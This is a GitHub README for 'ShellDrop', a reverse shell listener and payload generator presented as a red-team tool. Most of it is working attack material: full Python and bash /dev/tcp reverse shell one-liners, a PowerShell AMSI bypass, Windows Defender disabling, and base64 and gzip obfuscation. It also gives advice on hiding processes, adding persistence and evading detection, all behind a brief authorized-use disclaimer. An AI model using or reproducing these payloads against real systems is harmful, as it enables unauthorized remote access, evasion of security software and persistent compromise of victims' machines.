

# 🎯 ShellDrop v1.0 Beta
# plse this is beta i am working on fixing the window payload  till now they payload is working upto window 10  if u face any issu in window 11 plase dont raise any issu window payload may not work perfectly in beta

<div align="center">

```
╔═══════════════════════════════════════════════════════════════╗
║                         ShellDrop V 1.0 beta                  ║
║  Professional Reverse Shell Listener and payload generator    ║
║                                                               ║
║ Author: unknone hart / kishwor dulal                          ║
║ Purpose: Authorized Penetration Testing & Red Team Ops        ║
╚═══════════════════════════════════════════════════════════════╝
```

**A Professional Multi-Client Command & Control Framework**

[](https://www.python.org/)
[]()
[]()

[Features](#-features) • [Installation](#-installation) • [Usage](#-usage) • [Payloads](#-payload-library) • [Examples](#-examples) • [Legal](#%EF%B8%8F-legal-disclaimer)

</div>

---

## 📋 Overview

**ShellDrop** is a robust, feature-rich reverse shell listener designed for authorized penetration testing and red team operations. It provides a professional command and control interface with multi-client support, advanced payload generation, and real-time session management.

### 🎯 Key Highlights

- 🔄 **Multi-Client Support** - Manage multiple simultaneous reverse shell connections
- 🎨 **Interactive UI** - Colorized terminal output with intuitive command interface
- 🔐 **Advanced Payloads** - Pre-built obfuscated shells for Linux & Windows
- 🚀 **Real-Time Switching** - Seamlessly switch between active sessions
- 🧵 **Thread-Safe** - Robust concurrent connection handling
- 🎭 **Stealth Options** - Base64 encoding, AMSI bypass, AV evasion techniques

---

## ✨ Features

### 🖥️ Core Capabilities

| Feature | Description |
|---------|-------------|
| **Multi-Session Management** | Handle unlimited concurrent reverse shell connections |
| **Session Backgrounding** | Background sessions and return to main menu anytime |
| **Auto IP Detection** | Automatically detects your local IP address |
| **Payload Generator** | Generates 13+ ready-to-use payloads for various scenarios |
| **Thread-Safe I/O** | Clean output handling without race conditions |
| **Prompt Detection** | Automatically detects and displays remote shell prompts |

### 🎨 User Interface

- **Colorized Output** - Easy-to-read color-coded messages
- **Session Tracking** - View all active sessions with IP addresses
- **Interactive Prompts** - Context-aware command prompts
- **Background Operations** - Run commands while viewing output from all sessions

### 🔒 Security Features

- **AMSI Bypass** - Multi-layer Windows Defender evasion
- **Base64 Encoding** - Obfuscated payload delivery
- **Double Encoding** - Extra obfuscation for detection evasion
- **Silent Execution** - Suppresses error messages and logs
- **AV Kill Switch** - Optional Windows Defender disabling (detectable)

---

## 🚀 Installation

### Prerequisites

```bash
# Python 3.x required (3.7+ recommended)
python3 --version
```

### Quick Install

```bash
# Clone the repository
git clone https://github.com/kishwordulal1234/ShellDrop.git

# Navigate to directory
cd ShellDrop


# Make executable (Linux/Mac)
chmod +x shelldrop.py

# Run the tool
python3 shelldrop.py -p 4444
```

### Dependencies

**No external dependencies required!** ShellDrop uses only Python standard library:
- `socket` - Network communication
- `threading` - Concurrent connection handling
- `base64` - Payload encoding
- `gzip` - Payload compression

---

## 📖 Usage

### Basic Command

```bash
python3 shelldrop.py -p <PORT>
```

### Command Line Options

```bash
usage: shelldrop.py [-h] [-l LISTEN_IP] -p PORT [--kill-av]

options:
  -h, --help            Show this help message and exit
  -l, --listen-ip       IP address to bind (auto-detected if not provided)
  -p, --port PORT       Port to listen on (required)
  --kill-av             Add Windows Defender disable commands (highly detectable)
```

### Examples

```bash
# Listen on port 4444 (auto-detect IP)
python3 shelldrop.py -p 4444

# Specify listening IP
python3 shelldrop.py -l 192.168.1.100 -p 4444

# Enable AV kill switch (WARNING: Very detectable!)
python3 shelldrop.py -p 4444 --kill-av
```

---

## 🎮 Interactive Commands

Once ShellDrop is running, use these commands:

### Main Menu Commands

| Command | Description |
|---------|-------------|
| `list` | Display all active sessions with IDs and IP addresses |
| `use <id>` | Interact with a specific session by ID |
| `help` | Show available commands |
| `exit` / `quit` | Shutdown the listener and close all connections |

### Session Commands

| Command | Description |
|---------|-------------|
| `<command>` | Execute any command on the remote system |
| `background` | Background the current session and return to main menu |

### Example Workflow

```bash
shelldrop> list
╔═══ ACTIVE SESSIONS ═══════════════════════════════════════╗
║ Session 01 │ 192.168.1.105   : 49234
║ Session 02 │ 10.0.0.50       : 52891
╚═══════════════════════════════════════════════════════════╝

shelldrop> use 1
[*] Interacting with Session 1 | Type 'background' to detach

shelldrop>@user@target:~$> whoami
user

shelldrop>@user@target:~$> id
uid=1000(user) gid=1000(user) groups=1000(user),4(adm),27(sudo)

shelldrop>@user@target:~$> background
[*] Session 1 backgrounded (still active)

shelldrop> exit
[*] Shutting down ShellDrop...
```

---

## 🎯 Payload Library

ShellDrop generates 13+ different payloads optimized for various scenarios.

### 🐧 Linux Payloads

#### 1. Python - Raw
**Use Case:** Direct execution on Linux systems with Python installed
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])' 2>/dev/null
```
✅ Simple and reliable  
✅ Suppresses error output  
✅ Full interactive bash shell  

#### 2. Bash - Raw
**Use Case:** Pure bash reverse shell
```bash
bash -c "exec bash -i &>/dev/tcp/YOUR_IP/PORT 0>&1" 2>/dev/null
```
✅ No Python required  
✅ Works on minimal systems  
✅ Very fast connection  

#### 3. Python - Encoded
**Use Case:** Bypass basic command logging
```bash
python3 -c "import base64;exec(base64.b64decode('BASE64_PAYLOAD'))" 2>/dev/null
```
✅ Obfuscated payload  
✅ Evades simple detection  
✅ Base64 encoded  

#### 4. Bash - Obfuscated & Backgrounded
**Use Case:** Persistent connection with evasion
```bash
(bash -c "eval \"$(echo BASE64_PAYLOAD|base64 -d)\"" &) >/dev/null 2>&1
```
✅ Runs in background  
✅ Completely silent  
✅ Obfuscated execution  

#### 5. Python - Double Encoded & Backgrounded
**Use Case:** Maximum obfuscation
```bash
(python3 -c "import base64;exec(base64.b64decode(base64.b64decode('DOUBLE_ENCODED')))" &) >/dev/null 2>&1
```
✅ Double base64 encoding  
✅ Background execution  
✅ Maximum stealth  

---

### 🪟 Windows Payloads

#### 6. PowerShell - AMSI Bypass
**Use Case:** Bypass Windows Defender AMSI scanning
```powershell
powershell -nop -w hidden -ep bypass -c "try{[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)}catch{};..."
```
✅ Multi-layer AMSI bypass  
✅ Hidden window  
✅ Gzip compressed  
✅ Base64 encoded  

#### 7. PowerShell - Simple
**Use Case:** Quick PowerShell reverse shell
```powershell
powershell -nop -w hidden -c "$s=New-Object Net.Sockets.TCPClient('YOUR_IP',PORT);..."
```
✅ Fast execution  
✅ Hidden window  
✅ Full PowerShell access  

#### 8. Python - Raw (Windows)
**Use Case:** Windows systems with Python installed
```python
python -c "import socket,subprocess,os,threading,sys;s=socket.socket();s.connect(('YOUR_IP',PORT));..."
```
✅ Threading-based  
✅ Windows compatible  
✅ Handles I/O properly  

#### 9. Python - Simple Loop (Windows)
**Use Case:** Minimal Python reverse shell
```python
python -c "import socket,subprocess;s=socket.socket();s.connect(('YOUR_IP',PORT));[s.send(subprocess.run(s.recv(1024).decode(),shell=True,stdout=subprocess.PIPE,stderr=subprocess.PIPE).stdout) for _ in iter(int,1)]"
```
✅ One-liner  
✅ No threading  
✅ Compact payload  

#### 10. Python - Encoded (Windows)
**Use Case:** Obfuscated Python execution
```python
python -c "import base64;exec(base64.b64decode('BASE64_ENCODED_PAYLOAD'))"
```
✅ Base64 obfuscation  
✅ Thread-safe  
✅ Proper error handling  

#### 11. Batch Script
**Use Case:** Generate downloadable .bat file
```batch
@echo off
set ip=YOUR_IP
set port=PORT
powershell -nop -w hidden -ep bypass -c "..."
```
✅ Self-contained file  
✅ Double-click execution  
✅ PowerShell wrapper  

#### 12. MSHTA - One-liner
**Use Case:** Execute via Windows MSHTA
```batch
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -nop -w hidden -c ...""", 0:close")
```
✅ VBScript wrapper  
✅ Silent execution  
✅ No visible window  

---

## 💡 Examples

### Example 1: Basic Penetration Test

**Scenario:** Test shell access on Linux target

```bash
# 1. Start ShellDrop
python3 shelldrop.py -p 4444

# 2. On target machine, execute:
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.100",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])' 2>/dev/null

# 3. Session established!
[+] New session established: 192.168.1.105:49234 → Client ID: 1

shelldrop> use 1
shelldrop>@user@target:~$> whoami
user
```

### Example 2: Multi-Client Management

**Scenario:** Handle multiple compromised systems

```bash
shelldrop> list
╔═══ ACTIVE SESSIONS ═══════════════════════════════════════╗
║ Session 01 │ 192.168.1.105   : 49234
║ Session 02 │ 192.168.1.106   : 52891
║ Session 03 │ 10.0.0.50       : 41023
╚═══════════════════════════════════════════════════════════╝

# Work with Session 1
shelldrop> use 1
shelldrop>@user@server1:~$> hostname
server1
shelldrop>@user@server1:~$> background

# Switch to Session 2
shelldrop> use 2
shelldrop>@admin@server2:~$> whoami
admin
```

### Example 3: Windows AMSI Bypass

**Scenario:** Bypass Windows Defender on Windows 10/11

```bash
# 1. Start ShellDrop
python3 shelldrop.py -p 4444

# 2. On Windows target, execute the PowerShell AMSI Bypass payload
powershell -nop -w hidden -ep bypass -c "try{[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)}catch{};..."

# 3. Access the Windows shell
[+] New session established: 192.168.1.200:50123 → Client ID: 1

shelldrop> use 1
shelldrop>PS C:\Users\User> whoami
desktop-abc123\user

shelldrop>PS C:\Users\User> Get-Process | Select-Object -First 5
```

### Example 4: Stealth Operations

**Scenario:** Persistent access with obfuscation

```bash
# Use double-encoded backgrounded Python payload
(python3 -c "import base64;exec(base64.b64decode(base64.b64decode('PAYLOAD')))" &) >/dev/null 2>&1

# Connection runs in background
# No terminal output
# Survives logout (with additional persistence)
```

---

## 🏗️ Architecture

```
┌─────────────────────────────────────────────────────────┐
│                    ShellDrop Server                     │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  ┌──────────────┐    ┌──────────────┐                 │
│  │   Main Loop  │───▶│  Input Queue │                 │
│  └──────────────┘    └──────────────┘                 │
│         │                    │                         │
│         ▼                    ▼                         │
│  ┌──────────────────────────────────┐                 │
│  │   Connection Acceptor Thread    │                 │
│  └──────────────────────────────────┘                 │
│         │                                              │
│         ▼                                              │
│  ┌───────────────────────────────────────┐            │
│  │  Client Objects (Thread per Client)   │            │
│  ├───────────────────────────────────────┤            │
│  │  Client 1  │  Client 2  │  Client 3  │            │
│  │  Thread    │  Thread    │  Thread    │            │
│  └───────────────────────────────────────┘            │
│         │            │            │                    │
│         ▼            ▼            ▼                    │
│  ┌────────────────────────────────────────┐           │
│  │        Output Queues (Per Client)      │           │
│  └────────────────────────────────────────┘           │
│                                                        │
└─────────────────────────────────────────────────────────┘
                        │
                        ▼
            ┌──────────────────────┐
            │   Remote Targets     │
            ├──────────────────────┤
            │  🐧 Linux Systems    │
            │  🪟 Windows Systems  │
            └──────────────────────┘
```

### Thread Safety

- **Global Lock (`clients_lock`)** - Protects client dictionary
- **Print Lock (`print_lock`)** - Ensures clean output
- **Output Queues** - Thread-safe communication per client
- **Daemon Threads** - Automatic cleanup on exit

---

## 🛡️ Security Features

### 1. **AMSI Bypass (Windows)**
Multi-layer bypass to evade Windows Antimalware Scan Interface:
```powershell
# Layer 1: Direct field manipulation
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
  .GetField('amsiInitFailed','NonPublic,Static')
  .SetValue($null,$true)

# Layer 2: Reflection-based bypass
$a=[Ref].Assembly.GetTypes();
Foreach($b in $a){if($b.Name -like '*iUtils'){$c=$b}};
...
```

### 2. **Base64 Encoding**
All advanced payloads use base64 encoding to:
- Bypass command-line logging
- Evade string-based detection
- Obfuscate payload intent

### 3. **Gzip Compression**
PowerShell payloads are gzip-compressed to:
- Reduce payload size
- Add extra obfuscation layer
- Improve transfer speed

### 4. **Error Suppression**
All payloads redirect stderr to `/dev/null` or equivalent:
```bash
2>/dev/null         # Linux
-ErrorAction SilentlyContinue  # PowerShell
```

### 5. **Process Hiding**
Background execution options:
```bash
(command &) >/dev/null 2>&1     # Linux
-w hidden                       # PowerShell
```

---

## 🔧 Troubleshooting

### Issue: "Could not determine local IP"
**Solution:**
```bash
# Manually specify your IP
python3 shelldrop.py -l YOUR_IP -p 4444
```

### Issue: No prompt appears (Windows Python shells)
**Explanation:** The basic Python payloads don't generate prompts, but commands still work!
```bash
# Just type commands - output will appear
dir
whoami
ipconfig
```

### Issue: Connection established but no output
**Possible Causes:**
1. Firewall blocking outbound connection
2. Antivirus blocking execution
3. Wrong IP/port in payload

**Solutions:**
```bash
# Check firewall
sudo ufw status        # Linux
Get-NetFirewallRule    # Windows

# Temporarily disable AV (testing only!)
python3 shelldrop.py -p 4444 --kill-av

# Verify IP/port
ip addr show          # Linux
ipconfig              # Windows
```

### Issue: Session disconnects immediately
**Possible Causes:**
1. Command syntax error in payload
2. Missing dependencies (Python not installed)
3. Network timeout

**Solutions:**
```bash
# Test Python availability
python3 --version    # Linux
python --version     # Windows

# Use simpler payload
bash -c "exec bash -i &>/dev/tcp/YOUR_IP/PORT 0>&1"  # Linux
```

### Issue: "Address already in use"
**Solution:**
```bash
# Kill process using the port
sudo lsof -i :4444
sudo kill -9 <PID>

# Or use a different port
python3 shelldrop.py -p 4445
```

---

## 🎓 Best Practices

### For Penetration Testers

1. **Always get written authorization** before testing
2. **Document all sessions** - Keep logs of connections
3. **Use unique ports** - Avoid common ports (4444, 8080, etc.)
4. **Clean up after testing** - Close all sessions properly
5. **Test payloads safely** - Verify in isolated environment first

### For Red Team Operations

1. **Layer your obfuscation** - Use encoded + backgrounded payloads
2. **Vary your payloads** - Don't use same payload repeatedly
3. **Monitor for detection** - Watch for alerts/blocks
4. **Use port forwarding** - Hide actual C2 server
5. **Implement persistence** - Add cron jobs / scheduled tasks

### For Security

1. **Never use on unauthorized systems** - This is illegal
2. **Secure your listener** - Use firewalls and VPNs
3. **Encrypt communications** - Consider SSH tunneling
4. **Limit exposure** - Only listen when actively testing
5. **Update regularly** - Keep tool and Python up-to-date

---

## 📊 Comparison Matrix

| Feature | ShellDrop | Metasploit | Netcat | Empire |
|---------|-----------|------------|--------|---------|
| Multi-Client | ✅ | ✅ | ❌ | ✅ |
| Payload Generator | ✅ | ✅ | ❌ | ✅ |
| AMSI Bypass | ✅ | ✅ | ❌ | ✅ |
| Interactive UI | ✅ | ✅ | ❌ | ✅ |
| No Dependencies | ✅ | ❌ | ✅ | ❌ |
| Lightweight | ✅ | ❌ | ✅ | ❌ |
| Session Backgrounding | ✅ | ✅ | ❌ | ✅ |
| Learning Curve | 🟢 Easy | 🟡 Medium | 🟢 Easy | 🔴 Hard |

---

## 🗺️ Roadmap

### Version 1.1 (Planned)
- [ ] Session persistence (reconnection support)
- [ ] File upload/download capability
- [ ] Command history per session
- [ ] Tab completion
- [ ] Session logging to file

### Version 1.2 (Future)
- [ ] Encrypted communications (TLS/SSL)
- [ ] Web-based UI
- [ ] Plugin system
- [ ] Port forwarding
- [ ] Screenshot capture (Windows)

### Version 2.0 (Long-term)
- [ ] Database backend
- [ ] RESTful API
- [ ] Mobile app support
- [ ] Automated exploitation
- [ ] C2 server mesh networking

---

## 🤝 Contributing

Contributions are welcome! Please follow these guidelines:

### How to Contribute

1. **Fork the repository**
2. **Create a feature branch**
   ```bash
   git checkout -b feature/amazing-feature
   ```
3. **Commit your changes**
   ```bash
   git commit -m 'Add amazing feature'
   ```
4. **Push to branch**
   ```bash
   git push origin feature/amazing-feature
   ```
5. **Open a Pull Request**

### Contribution Ideas

- 🐛 Bug fixes and improvements
- 📝 Documentation enhancements
- 🎨 UI/UX improvements
- 🔧 New payload types
- 🌐 Cross-platform compatibility
- 🔒 Additional evasion techniques

---

## 📜 Changelog

### v1.0 Beta (Current)
- ✨ Initial release
- ✅ Multi-client support
- ✅ 13+ payload templates
- ✅ Linux & Windows support
- ✅ AMSI bypass for Windows
- ✅ Interactive command interface
- ✅ Session management
- ✅ Thread-safe operations

---

## ⚠️ Legal Disclaimer

```
╔═══════════════════════════════════════════════════════════════╗
║                      IMPORTANT LEGAL NOTICE                    ║
╚═══════════════════════════════════════════════════════════════╝

This tool is designed for EDUCATIONAL PURPOSES and AUTHORIZED 
PENETRATION TESTING ONLY.

❌ UNAUTHORIZED USE IS STRICTLY PROHIBITED AND ILLEGAL

By using this tool, you agree to:

1. ✅ Only use on systems you own or have WRITTEN PERMISSION to test
2. ✅ Comply with all applicable local, state, and federal laws
3. ✅ Take full responsibility for your actions
4. ✅ Not use for malicious purposes

The author(s) assume NO LIABILITY for misuse or damage caused by 
this tool. Unauthorized access to computer systems is a federal 
crime in most countries.

⚖️  Relevant Laws (USA):
   - Computer Fraud and Abuse Act (CFAA) - 18 U.S.C. § 1030
   - Electronic Communications Privacy Act (ECPA)

🌍 International: Similar laws exist in most countries

USE AT YOUR OWN RISK. BE ETHICAL. BE LEGAL.
```

---

## 📞 Support & Contact

### 📧 Author
**unknone hart / kishwor dulal**

### 🐛 Report Issues
Found a bug? Please open an issue on GitHub with:
- Python version
- Operating system
- Error message (if any)
- Steps to reproduce

### 💬 Community
- **GitHub Discussions** - Ask questions, share ideas
- **Pull Requests** - Contribute improvements
- **Star the repo** - Show your support! ⭐

---

## 📚 Additional Resources

### Learning Resources
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [Penetration Testing Execution Standard](http://www.pentest-standard.org/)
- [Red Team Field Manual](https://www.amazon.com/Rtfm-Red-Team-Field-Manual/dp/1494295504)

### Related Tools
- [Metasploit Framework](https://www.metasploit.com/)
- [PowerShell Empire](https://github.com/BC-SECURITY/Empire)
- [Netcat](http://netcat.sourceforge.net/)
- [Socat](http://www.dest-unreach.org/socat/)

### Security Standards
- [NIST Cybersecurity Framework](https://www.nist.gov/cyberframework)
- [PTES Technical Guidelines](http://www.pentest-standard.org/index.php/Main_Page)
- [CIS Controls](https://www.cisecurity.org/controls/)

---

## 📄 License

This project is released under the **Educational Use License**.

```
Copyright (c) 2024 unknone hart / kishwor dulal

Permission is granted to use this software for educational and 
authorized security testing purposes only.

THIS SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND.
```

---

## 🌟 Acknowledgments

Special thanks to:
- The Python Software Foundation
- The penetration testing community
- All contributors and testers
- Security researchers worldwide

---

<div align="center">

### ⭐ If you find ShellDrop useful, please star the repository! ⭐

**Made with ❤️ for the Security Community**

[⬆ Back to Top](#-shelldrop-v10-beta)

</div>

---

## 🔖 Quick Reference Card

```
╔═══════════════════════════════════════════════════════════╗
║                  ShellDrop Quick Reference                 ║
╠═══════════════════════════════════════════════════════════╣
║ BASIC USAGE                                               ║
║ python3 shelldrop.py -p 4444                              ║
║                                                           ║
║ COMMANDS                                                  ║
║ list                  - Show active sessions              ║
║ use <id>              - Interact with session             ║
║ background            - Background current session        ║
║ help                  - Show help                         ║
║ exit                  - Quit ShellDrop                    ║
║                                                           ║
║ BEST PAYLOADS                                             ║
║ 🐧 Linux:   Python - Raw (reliable)                      ║
║ 🐧 Linux:   Bash - Obfuscated (stealth)                  ║
║ 🪟 Windows: PowerShell - AMSI Bypass (bypass AV)         ║
║ 🪟 Windows: Python - Raw (if Python installed)           ║
╚═══════════════════════════════════════════════════════════╝
```

---

**Stay Ethical. Stay Legal. Happy Hacking! 🔒**
